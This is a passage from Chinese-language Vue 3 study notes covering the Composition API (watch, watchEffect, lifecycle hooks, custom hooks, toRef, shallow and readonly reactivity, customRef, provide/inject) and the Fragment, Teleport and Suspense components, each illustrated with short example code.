       //计算属性——完整写法（考虑读和写）
       person.fullName = computed({
         get() {
           return person.firstName + '-' + person.lastName
         },
         set(value) {
           const nameArr = value.split('-')
           person.firstName = nameArr[0]
           person.lastName = nameArr[1]
         },
       })
   
       //返回一个对象（常用）
       return {
         person,
       }
     },
   }
   </script>
   ```

------

### 2.5 监视属性

#### 2.5.1 watch函数

> 与 Vue2 中watch配置功能一致

##### 2.5.1.1 监视 `ref`

1. 监视单个基本类型响应式数据

   ```js
   let sum = ref(0)
   
   watch(
     sum,
     (newValue, oldValue) => {
       console.log('sum变了', newValue, oldValue)
     },
     { immediate: true }	// 启动时先进行一次监视
   )
   ```

2. 监视多个基本类型响应式数据：`newValue`、`oldValue`变为数组

   ```js
   let sum = ref(0)
   let msg = ref('你好啊')
   
   watch(
     [sum, msg],
     (newValue, oldValue) => {
       console.log('sum或msg变了', newValue, oldValue)
     },
     { immediate: true }	// 启动时先进行一次监视
   )
   ```

3. 监视对象类型的响应式数据：

   1）开启深度监视（推荐）：`{deep:true}`

   2）在对象后加`.value`

   ```js
   let person = ref({
     name: '张三',
     age: 18,
     job: {
       j1: {
         salary: 20,
       },
     },
   })
   
   // 方法1
   watch(
     person,
     (newValue, oldValue) => {
       console.log('person的值变化了', newValue, oldValue)
     },
     { deep: true }
   )
   
   // 方法2
   watch(
     person.value,
     (newValue, oldValue) => {
       console.log('person的值变化了', newValue, oldValue)
     },
   )
   ```

##### 2.5.1.2 监视 `reactive`

1. 监视响应式数据的全部属性：oldValue无法正确获取、强制开启了深度监视（强制`{deep:true}`，无法关闭）

   ```js
   let person = reactive({
     name: '张三',
     age: 18,
     job: {
       j1: {
         salary: 20,
       },
     },
   })
   
   watch(
     person,
     (newValue, oldValue) => {
       console.log('person变化了', newValue, oldValue)
     },
     { deep: false } // 此处的deep配置无效（强制{deep:true}，无法关闭）
   )
   ```

2. 监视响应式数据的单个属性：监视对象中的属性，要写成函数形式

   ```js
   watch(
     () => person.name, // 监视对象中的属性，要写成函数形式
     (newValue, oldValue) => {
       console.log('person的name变化了', newValue, oldValue)
     }
   )
   ```

3. 监视响应式数据的多个属性：

   ```js
   watch([() => person.name, () => person.age], (newValue, oldValue) => {
     console.log('person的name或age变化了', newValue, oldValue)
   })
   ```

4. 监视响应式数据的对象属性：此时`deep`配置有效

   ```js
   watch(
     () => person.job,
     (newValue, oldValue) => {
       console.log('person的job变化了', newValue, oldValue)
     },
     { deep: true } // 可以开启深度监视
   )
   ```

------

#### 2.5.2 watchEffect函数

1. 定义：无需指明监视哪个属性，监视的回调中用到哪个属性，那就监视哪个属性

2. 对比`watch`：既要指明监视的属性，也要指明监视的回调

3. 特点：类似computed

   1）`computed`注重的计算出来的值（回调函数的返回值），所以必须要写返回值

   2）`watchEffect`更注重的是过程（回调函数的函数体），所以不用写返回值

   ```js
   let sum = ref(0)
   let msg = ref('你好啊')
   let person = reactive({
     name: '张三',
     age: 18,
     job: {
       j1: {
         salary: 20,
       },
     },
   })
   
   watchEffect(() => {
     const x1 = sum.value
     const x2 = person.job.j1.salary
     console.log('watchEffect所指定的回调执行了')
   })
   ```

4. 案例完整代码：Demo.vue

   ```vue
   <template>
     <h2>当前求和为：{{sum}}</h2>
     <button @click="sum++">点我+1</button>
     <hr />
     <h2>当前的信息为：{{msg}}</h2>
     <button @click="msg+='！'">修改信息</button>
     <hr />
     <h2>姓名：{{person.name}}</h2>
     <h2>年龄：{{person.age}}</h2>
     <h2>薪资：{{person.job.j1.salary}}K</h2>
     <button @click="person.name+='~'">修改姓名</button>
     <button @click="person.age++">增长年龄</button>
     <button @click="person.job.j1.salary++">涨薪</button>
   </template>
   
   <script>
   import { ref, reactive, watch, watchEffect } from 'vue'
   export default {
     name: 'Demo',
     setup() {
       //数据
       let sum = ref(0)
       let msg = ref('你好啊')
       let person = reactive({
         name: '张三',
         age: 18,
         job: {
           j1: {
             salary: 20,
           },
         },
       })
   
       // watch监视
       watch(
         sum,
         (newValue, oldValue) => {
           console.log('sum的值变化了', newValue, oldValue)
         },
         { immediate: true }
       )
       // watchEffect监视
       watchEffect(() => {
         const x1 = sum.value
         const x2 = person.job.j1.salary
         console.log('watchEffect所指定的回调执行了')
       })
   
       //返回一个对象（常用）
       return {
         sum,
         msg,
         person,
       }
     },
   }
   </script>
   ```

------

### 2.6 生命周期函数

> Vue2生命周期：[https://cn.vuejs.org/images/lifecycle.png](https://cn.vuejs.org/images/lifecycle.png)
>
> Vue3生命周期：[https://v3.cn.vuejs.org/images/lifecycle.svg](https://v3.cn.vuejs.org/images/lifecycle.svg)



1. Vue3中可以继续使用Vue2中的生命周期钩子，但有有两个被更名：

   1）`beforeDestroy` 改名为 `beforeUnmount`

   2）`destroyed` 改名为 `unmounted`

2. Vue3也提供了Composition API形式的生命周期钩子，与Vue2中钩子对应关系如下：

   |  配置项形式   |  组合式API形式  |
   | :-----------: | :-------------: |
   | beforeCreate  |     setup()     |
   |    created    |     setup()     |
   |  beforeMount  |  onBeforeMount  |
   |    mounted    |    onMounted    |
   | beforeUpdate  | onBeforeUpdate  |
   |    updated    |    onUpdated    |
   | beforeUnmount | onBeforeUnmount |
   |   unmounted   |   onUnmounted   |

3. 案例：通过配置项的形式使用生命周期钩子

   ```vue
   <template>
     <h2>当前求和为：{{sum}}</h2>
     <button @click="sum++">点我+1</button>
   </template>
   
   <script>
   import { ref } from 'vue'
   export default {
     name: 'Demo',
     setup() {
       console.log('---setup---')
       //数据
       let sum = ref(0)
       //返回一个对象（常用）
       return { sum }
     },
       
     // 通过配置项的形式使用生命周期钩子
     beforeCreate() {
       console.log('---beforeCreate---')
     },
     created() {
       console.log('---created---')
     },
     beforeMount() {
       console.log('---beforeMount---')
     },
     mounted() {
       console.log('---mounted---')
     },
     beforeUpdate() {
       console.log('---beforeUpdate---')
     },
     updated() {
       console.log('---updated---')
     },
     beforeUnmount() {
       console.log('---beforeUnmount---')
     },
     unmounted() {
       console.log('---unmounted---')
     },
   }
   </script>
   ```

4. 案例：通过组合式API的形式使用生命周期钩子

   ```vue
   <template>
     <h2>当前求和为：{{sum}}</h2>
     <button @click="sum++">点我+1</button>
   </template>
   
   <script>
   import { ref, onBeforeMount, onMounted, onBeforeUpdate, onUpdated, onBeforeUnmount, onUnmounted } from 'vue'
   export default {
     name: 'Demo',
     setup() {
       console.log('---setup---')
       // 数据
       let sum = ref(0)
       // 通过组合式API的形式去使用生命周期钩子
       onBeforeMount(() => {
         console.log('---onBeforeMount---')
       })
       onMounted(() => {
         console.log('---onMounted---')
       })
       onBeforeUpdate(() => {
         console.log('---onBeforeUpdate---')
       })
       onUpdated(() => {
         console.log('---onUpdated---')
       })
       onBeforeUnmount(() => {
         console.log('---onBeforeUnmount---')
       })
       onUnmounted(() => {
         console.log('---onUnmounted---')
       })
   
       //返回一个对象（常用）
       return { sum }
     },
   }
   </script>
   ```

------

### 2.7 hook函数

> 自定义`hook`函数把setup函数中使用的Composition API进行了封装，类似于Vue2中的混入`mixin`

1. 优势: 复用代码, 让setup中的逻辑更清楚易懂

2. 文件结构：`/hooks/useXXX.js`，给文件起名时按惯例以use开头

3. 案例：为Demo.vue、Test.vue组件添加鼠标打点功能

   1）定义hook函数：hooks/usePoint.js

   ```js
   import { reactive, onMounted, onBeforeUnmount } from 'vue'
   export default function () {
     //实现鼠标“打点”相关的数据
     let point = reactive({
       x: 0,
       y: 0,
     })
   
     //实现鼠标“打点”相关的方法
     function savePoint(event) {
       point.x = event.pageX
       point.y = event.pageY
       console.log(event.pageX, event.pageY)
     }
   
     //实现鼠标“打点”相关的生命周期钩子
     onMounted(() => {
       window.addEventListener('click', savePoint)
     })
   
     onBeforeUnmount(() => {
       window.removeEventListener('click', savePoint)
     })
   
     // 必须有返回值
     return point
   }
   ```

   2）子组件Demo.vue：引入hook函数并使用

   ```vue
   <template>
     <h2>当前求和为：{{sum}}</h2>
     <button @click="sum++">点我+1</button>
     <hr />
     <h2>当前点击时鼠标的坐标为：x：{{point.x}}，y：{{point.y}}</h2>
   </template>
   
   <script>
   import { ref } from 'vue'
   // 引入hook函数
   import usePoint from '../hooks/usePoint'
   export default {
     name: 'Demo',
     setup() {
       //数据
       let sum = ref(0)
       let point = usePoint()
   
       //返回一个对象（常用）
       return { sum, point }
     },
   }
   </script>
   ```

   3）子组件Test.vue：引入hook函数并使用

   ```vue
   <template>
     <h2>我是Test组件</h2>
     <h2>当前点击时鼠标的坐标为：x：{{point.x}}，y：{{point.y}}</h2>
   </template>
   
   <script>
   // 引入hook函数
   import usePoint from '../hooks/usePoint'
   export default {
     name: 'Test',
     setup() {
       const point = usePoint()
       return { point }
     },
   }
   </script>
   ```

   4）父组件App.vue：可以点击隐藏Demo子组件（演示hook函数可以继续在Test子组件中发挥作用）

   ```vue
   <template>
     <button @click="isShowDemo = !isShowDemo">切换隐藏/显示</button>
     <Demo v-if="isShowDemo" />
     <hr />
     <Test />
   </template>
   
   <script>
   import { ref } from 'vue'
   import Demo from './components/Demo'
   import Test from './components/Test'
   export default {
     name: 'App',
     components: { Demo, Test },
     setup() {
       let isShowDemo = ref(true)
       return { isShowDemo }
     },
   }
   </script>
   ```

------

### 2.8 toRef函数

> 创建一个`ref`对象，其`value`值指向另一个对象中的某个属性

1. 语法：`const xxx = toRef(obj,'attr')`

2. 应用: 要将响应式对象中的某个属性单独提供给外部使用时

3. 扩展：`toRefs(obj)`与`toRef`功能一致，但可以批量创建多个ref对象（仅能解析对象中的第一层，无法深入所有层级）

4. 注意：考虑后期可能向对象身上添加属性，所以在setup最后return时要同时交出`person`和`...toRefs(person)`

5. 案例：简化插值语法中的person对象

   ```vue
   <template>
     <h4>{{person}}</h4>
     <!-- 不用再写person.name，直接写name -->
     <h2>姓名：{{name}}</h2>
     <h2>年龄：{{age}}</h2>
     <!-- toRefs只能解析第一层属性，深层次属性依然需要逐一书写 -->
     <h2>薪资：{{job.j1.salary}}K</h2>
     <button @click="name+='~'">修改姓名</button>
     <button @click="age++">增长年龄</button>
     <button @click="job.j1.salary++">涨薪</button>
   </template>
   
   <script>
   import { ref, reactive, toRef, toRefs } from 'vue'
   export default {
     name: 'Demo',
     setup() {
       //数据
       let person = reactive({
         name: '张三', 
         age: 18,
         job: {
           j1: {
             salary: 20,
           },
         },
       })
       //返回一个对象（常用）
       return {
         person,
         
         // 对外提供单个属性
         // name:toRef(person,'name'),
         // age:toRef(person,'age'),
         // salary:toRef(person.job.j1,'salary'),
   
         // 对外提供全部属性（仅第一层）
         ...toRefs(person),
       }
     },
   }
   </script>
   ```

------

### 2.9 shallowRef/Reactive

1. `shallowReactive`：只处理对象最外层属性的响应式（浅响应式）；适用：对象数据，结构比较深, 但变化时只是外层属性变化

   ```vue
   <h2>薪资：{{job.j1.salary}}K</h2>
   <!-- shallowReactive：无法修改深层次的对象数据 -->
   <button @click="job.j1.salary++">涨薪</button>
   
   <script>
   ......
   let person = shallowReactive({
     name: '张三',
     age: 18,
     job: {
       j1: {
         salary: 20,
       },
     },
   })
   ......
   </script>
   ```

2. `shallowRef`：只处理基本数据类型的响应式, 不进行对象的响应式处理；适用：对象数据，后续功能不会修改该对象中的属性，而是用新的对象来替换

   ```vue
   <h4>当前的x.y值是：{{x.y}}</h4>
   <button @click="x={y:888}">点我替换x</button>
   <!-- shallowRef：不进行对象的响应式处理，因为里面不是Proxy，而是Object -->
   <button @click="x.y++">点我x.y++</button>
   
   <script>
   ......
   let x = shallowRef({
     y: 0,
   })
   ......
   </script>
   ```

------

### 2.10 readonly/shallowReadonly

> 应用：不希望数据被修改时

1. `readonly`: 让一个响应式数据变为只读的（深只读），考虑全部层级数据，所有数据无法修改

2. `shallowReadonly`：让一个响应式数据变为只读的（浅只读），仅考虑第一层数据，深层数据依然可以改

   ```vue
   <h2>姓名：{{name}}</h2>
   <h2>年龄：{{age}}</h2>
   <h2>薪资：{{job.j1.salary}}K</h2>
   <button @click="name+='~'">修改姓名</button>
   <button @click="age++">增长年龄</button>
   <button @click="job.j1.salary++">涨薪</button>
   
   <script>
   ......
   // 全部数据无法修改
   // let person = readonly({...})
   
   // 除第一层数据外，深层次数据可以修改
   let person = shallowReadonly({
     name: '张三',
     age: 18,
     job: {
       j1: {
         salary: 20,
       },
     },
   })
   ......
   </script>
   ```

------

### 2.11 toRaw/markRaw

1. `toRaw`：将一个由`reactive`生成的响应式对象转为普通对象（不能是`ref`定义的）

   1）应用场景：用于读取响应式对象对应的普通对象，对这个普通对象的所有操作，不会引起页面更新

   2）案例：

   ```vue
   <button @click="showRawPerson">输出最原始的person</button>
   
   <script>
   ......
   let person = reactive({
     name: '张三',
     age: 18,
     job: {
       j1: {
         salary: 20,
       },
     },
   })
       
   function showRawPerson() {
     const p = toRaw(person)
     p.age++
     // 控制台输出的age在增加，但界面上的person不会改变
     console.log(p)
   }
   
   return {
     // 考虑后期可能向对象身上添加属性，所以在setup最后return时要同时交出 person 和 ...toRefs(person)
     person,
     ...toRefs(person),
     showRawPerson,
   }
   ......
   </script>
   ```

2. `markRaw`：标记一个对象，使其永远不会再成为响应式对象

   1）应用场景：有些值不应被设置为响应式的，例如复杂的第三方类库等；当渲染具有不可变数据源的大列表时，跳过响应式转换可以提高性能

   2）案例：

   ```vue
   <h3 v-show="person.car">座驾信息：{{person.car}}</h3>
   <button @click="addCar">给人添加一台车</button>
   <button @click="person.car.name+='!'">换车名</button>
   <button @click="changePrice">换价格</button>
   
   <script>
   ......
   let person = reactive({
     name: '张三',
     age: 18,
     job: {
       j1: {
         salary: 20,
       },
     },
   })
       
   function addCar() {
     let car = { name: '奔驰', price: 40 }
     // car变为非响应式数据，改变后屏幕上的信息不会跟随变化
     person.car = markRaw(car)
   }
   
   function changePrice() {
     person.car.price++
     // 控制台输出数据会变化，但屏幕上的数据不会跟随变化
     console.log(person.car.price)
   }
   
   return {
     // 考虑后期可能向对象身上添加属性，所以在setup最后return时要同时交出 person 和 ...toRefs(person)
     person,
     ...toRefs(person),
     showRawPerson,
   }
   ......
   </script>
   ```

------

### 2.12 customRef

> 创建一个自定义的`ref`，并对其依赖项跟踪和更新触发进行显式控制

1. 语法：

   1）`track`：get中触发，通知Vue追踪value的变化

   2）`trigger`：set中触发，通知Vue去重新解析模板

   ```js
   // 自定义一个ref：myRef
   function myRef(value) {
     return customRef((track, trigger) => {
       return {
         get() {
           track() //通知Vue追踪value的变化（提前和get商量一下，让他认为这个value是有用的）
           return value
         },
         set(newValue) {
           value = newValue
           trigger() //通知Vue去重新解析模板
         },
       }
     })
   }
   ```

2. 案例（防抖效果）：输入框输入内容后，延迟更新屏幕上显示的标题

   ```vue
   <template>
     <input type="text" v-model="keyWord" />
     <h3>{{keyWord}}</h3>
   </template>
   
   <script>
   import { ref, customRef } from 'vue'
   export default {
     name: 'App',
     setup() {
       // 自定义一个ref：myRef
       function myRef(value, delay) {
         let timer
         return customRef((track, trigger) => {
           return {
             get() {
               console.log(`有人从myRef这个容器中读取数据了，我把${value}给他了`)
               track() // 通知Vue追踪value的变化（提前和get商量一下，让他认为这个value是有用的）
               return value
             },
             set(newValue) {
               console.log(`有人把myRef这个容器中数据改为了：${newValue}`)
               clearTimeout(timer)
               timer = setTimeout(() => {
                 value = newValue
                 trigger() // 通知Vue去重新解析模板
               }, delay)
             },
           }
         })
       }
         
       let keyWord = myRef('hello', 500) //使用自定义的ref
       return { keyWord }
     },
   }
   </script>
   ```

------

### 2.13 provide与inject

> 实现祖与后代组件间通信：父组件使用`provide`选项来提供数据，后代组件使用`inject`选项来开始使用这些数据


1. 祖组件：

   ```vue
   <script>
   ......
   import { provide } from 'vue'
   setup() {
     let car = reactive({ name: '奔驰', price: '40W' })
     provide('car', car) //给自己的后代组件传递数据
   },
   ......
   </script>
   ```

2. 后代组件：

   ```vue
   <h3>我是Son组件（孙），{{car.name}}--{{car.price}}</h3>
   
   <script>
   ......
   import { inject } from 'vue'
   setup() {
     let car = inject('car')
     return { car }
   },
   ......
   </script>
   ```

------

### 2.14 响应式数据的判断

1. `isRef`：检查一个值是否为一个 `ref` 对象

2. `isReactive`：检查一个对象是否是由 `reactive` 创建的响应式代理

3. `isReadonly`：检查一个对象是否是由 `readonly` 创建的只读代理

4. `isProxy`：检查一个对象是否是由 `reactive` 或者 `readonly` 方法创建的代理

   ```js
   let car = reactive({ name: '奔驰', price: '40W' })
   let sum = ref(0)
   let car2 = readonly(car)
   console.log(isRef(sum))			// True
   console.log(isReactive(car))	// True
   console.log(isReadonly(car2))	// True
   console.log(isProxy(car))		// True
   console.log(isProxy(car2))		// True
   console.log(isProxy(sum))		// False
   ```

------

## 第3章 Vue3组件

### 3.1 Fragment

> 作用：减少标签层级，减小内存占用

1. 在Vue2中: 组件必须有一个根标签
2. 在Vue3中: 组件可以没有根标签, 内部会将多个标签包含在一个`Fragment`虚拟元素中

------

### 3.2 Teleport

> 作用：能够将组件html结构移动到指定位置

1. 语法：`<teleport to="HTML元素/css选择器">...</teleport>`

2. 案例：孙组件Son.vue中定义弹窗，用teleport将弹窗移动到body中

   1）孙组件：Son.vue

   ```vue
   <template>
     <div class="son">
       <h3>我是Son组件</h3>
       <Dialog />
     </div>
   </template>
   
   <script>
   import Dialog from './Dialog.vue'
   export default {
     name: 'Son',
     components: { Dialog },
   }
   </script>
   
   <style>
   .son {
     background-color: orange;
     padding: 10px;
   }
   </style>
   ```

   2）弹窗组件：Dialog.vue

   ```vue
   <template>
     <div>
       <button @click="isShow = true">点我弹个窗</button>
       <teleport to="body">
         <div v-if="isShow" class="mask">
           <div class="dialog">
             <h3>我是一个弹窗</h3>
             <h4>一些内容</h4>
             <h4>一些内容</h4>
             <h4>一些内容</h4>
             <button @click="isShow = false">关闭弹窗</button>
           </div>
         </div>
       </teleport>
     </div>
   </template>
   
   <script>
   import { ref } from 'vue'
   export default {
     name: 'Dialog',
     setup() {
       let isShow = ref(false)
       return { isShow }
     },
   }
   </script>
   
   <style>
   .mask {
     position: absolute;
     top: 0;
     bottom: 0;
     left: 0;
     right: 0;
     background-color: rgba(0, 0, 0, 0.5);
   }
   .dialog {
     position: absolute;
     top: 50%;
     left: 50%;
     transform: translate(-50%, -50%);
     text-align: center;
     width: 300px;
     height: 300px;
     background-color: green;
   }
   </style>
   ```

------

### 3.3 Suspense

> 作用：等待异步组件时渲染一些额外内容，让应用有更好的用户体验

1. 两种引入方法：

   1）静态引入：网页会等全部组件加载完毕后同时展示

   ```js
   import Child from './components/Child'
   ```

   2）异步引入：网页会先展示加载完毕的组件，加载慢的组件随后展示

   ```js
   import { defineAsyncComponent } from 'vue'
   const Child = defineAsyncComponent(() => import('./components/Child'))
   ```

2. 异步`setup`：会导致组件延迟展示

   ```vue
   <template>
     <div class="child">
       <h3>我是Child组件</h3>
       {{sum}}
     </div>
   </template>
   
   <script>
   import { ref } from 'vue'
   export default {
     name: 'Child',
     async setup() {
       let sum = ref(0)
       let p = new Promise((resolve, reject) => {
         setTimeout(() => {
           resolve({ sum })
         }, 3000)
       })
       return await p
     },
   }
   </script>
   
   <style>
   .child {
     background-color: skyblue;
     padding: 10px;
   }
   </style>
   ```

3. Suspense使用：

   1）异步引入组件

   ```js
   import {defineAsyncComponent} from 'vue'
   const Child = defineAsyncComponent(()=>import('./components/Child.vue'))
   ```

   2）使用```Suspense```包裹组件，并配置`default`与`fallback`两个插槽

   ```vue
   <Suspense>
     <!-- 插槽1：展示真实内容 -->
     <template v-slot:default>
       <Child />
     </template>
     <!-- 插槽2：展示等待加载时的内容 -->
     <template v-slot:fallback>
       <h3>稍等，加载中...</h3>
     </template>
   </Suspense>
   ```

4. 案例完整代码：父组件App.vue

   ```vue
   <template>
     <div class="app">
       <h3>我是App组件</h3>
       <Suspense>
         <!-- 插槽1：展示真实内容 -->
         <template v-slot:default>
           <Child />
         </template>
         <!-- 插槽2：展示等待加载时的内容 -->
         <template v-slot:fallback>
           <h3>稍等，加载中...</h3>
         </template>
       </Suspense>
     </div>
   </template>
   
   <script>
   import { defineAsyncComponent } from 'vue'
   const Child = defineAsyncComponent(() => import('./components/Child')) //异步引入
   export default {
     name: 'App',
     components: { Child },
   }
   </script>
   
   <style>
   .app {
     background-color: gray;
     padding: 10px;
   }
   </style>
   ```

------

